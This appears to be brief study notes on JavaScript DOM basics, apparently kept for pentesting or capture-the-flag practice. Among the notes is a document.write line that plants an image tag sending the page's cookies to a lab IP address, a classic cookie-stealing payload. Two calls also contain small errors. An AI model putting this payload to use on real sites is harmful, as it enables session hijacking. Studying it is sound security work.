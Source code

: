 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
> document.getElementByTagName('div');
> document.querySelectorAll('div');
> 
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
> 

